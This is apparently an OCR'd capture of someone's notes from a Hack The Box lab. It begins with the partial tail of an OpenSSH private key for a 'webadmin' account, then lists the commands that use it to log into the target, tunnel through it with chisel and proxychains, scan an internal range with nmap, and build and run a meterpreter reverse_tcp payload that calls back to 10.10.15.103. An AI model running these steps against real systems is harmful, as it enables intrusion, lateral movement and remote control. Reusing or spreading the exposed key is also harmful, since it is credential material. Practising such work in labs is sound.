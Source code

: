 WSPoVloA91isRoU4+q8Z/bGWtkg6GMMUZrfRiVTOgkWveXOPE7Fx6p25Y0B34prPMXzRap
Ek+sELPiZTIPG0xQr+GRfULVqZZI0pz0Vch4h1oZZxQn/WLrny1+RMxoauerxNK0nAOM8e
RG23Lzka/x7TCqvOOyuNoQu896eDnc6BapzAOiFdTcWoLMjwAifpYn2uE42Mebf+bji0N7
ZL+WWPIZ0y91Zk3s7vuysDo1JmxWWRS1ULNusSSnWO+1msn2cMw5qufgrZlG6bblx32mpU
XC1ylwQmgQjUaFJP1VOt+JrZKFAnKZS1cjwemtjhup+vJpruYKqOfQInTYt9ZZ2SLmgIUI
NMpXVqIhQdqwSl5RudhwpC+2yroKeyeA5O+g2VhmX4VRxDcPSRmUqgOoLgdvyE6rjJO5AP
jS0A/I3JTqbr15vm7Byufy691WWHI1GA6jA9/5NrBqyAFyaElT9o+BFALEXX9m1aaRAAAA
wQDL9Mm9zcfW8Pf+Pjv0hhnF/k93JPpicnB9bOpwNmO1qq3cgTJ8FBg/9zl5b5EOWSyTWH
4aEQNg3ON5/NwQzdwZs5yWBzs+gyOgBdNl6BlG8c04k1suXx71CeN15BBe72OPctsYxDIr
0syP7MwiAgrz0XP3jCEwq6XoBrE0UVYjIQYA7+oGgioY2KnapVYDitE99nv1JkXhg0jt/m
MTrEmSgWmr4yyXLRSuYGLy0DMGcaCA6Rpj2xuRsdrgSv5N0ygAAADBAOVVBtbzCNfnOl6Q
NpX2vxJ+BFG9tSSdDQUJngPCP2wluO/3ThPwtJVF+7unQC8za4eVD0n40AgVfMdamj/Lkc
mkEyRejQXQg1Kui/hKD9T8iFw7kJ2LuPcTyvjMyAo4lkUrmHwXKMO0qRaCo/6lBzShVlTK
u+GTYMG4SNLucNsflcotlVGW44oYr/6Em5lQ3o1OhhoI90W4h3HK8FLqldDRbRxzuYtR13
DAK7kgvoiXzQwAcdGhXnPMSeWZTlOuTQAAAMEA1JRKN+Q6ERFPn1TqX8b5QkJEuYJQKGXH
SQ1Kzm02O5sQQjtxy+iAlYOdU41+L0UVAK+7o3P+xqfx/pzZPX8Z+4YTu8Xq41c/nY0kht
rFHqXT6siZzIfVOEjMi8HL1ffhJVVW9VA5a4S1zp9dbwC/8iE4n+P/EBsLZCUud//bBlSp
v0bfjDzd4sFLbVv/YWVLDD3DCPC3PjXYHmCpA76qLzlJP26fSMbw7TbnZ2dxum3wyxse5j
MtiE8P6v7eaf1XAAAAHHdlYmFkbWluQGlubGFuZWZyZWlnaHQubG9jYWwBAgMEBQY=
-----END OPENSSH PRIVATE KEY-----

chmod 600 /home/htb-ac-786011/id_rsa

scp -i /home/htb-ac-786011/id_rsa chisel webadmin@$TARGET:~/

ssh -i /home/htb-ac-786011/id_rsa webadmin@$TARGET

git clone https://github.com/jpillora/chisel.git
cd chisel
go build

./chisel server -v -p 1234 --socks5
2023/11/26 15:43:01 server: Fingerprint CcZbdZAwxzUFy6VOTU44xSh7TJlR/o+VI7UBDrCcsx8=
2023/11/26 15:43:01 listen tcp 0.0.0.0:1234: bind: address already in use

cd chisel/
./chisel client -v $TARGET:1234 socks

sudo vi /etc/proxychains.conf
MAJ+G
\# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080

proxychains nmap -sV -sT 10.129.200.0/21 --stats-every=5s

--> FAILED

msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.15.103 -f elf -o backupjob LPORT=8080
msfconsole
use exploit/multi/handler
set lhost 0.0.0.0
set lport 8080
set payload linux/x64/meterpreter/reverse_tcp
run

scp -i /home/htb-ac-786011/id_rsa backupjob webadmin@$TARGET:~/
ssh -i /home/htb-ac-786011/id_rsa webadmin@$TARGET
chmod 777 backupjob
./backupjob
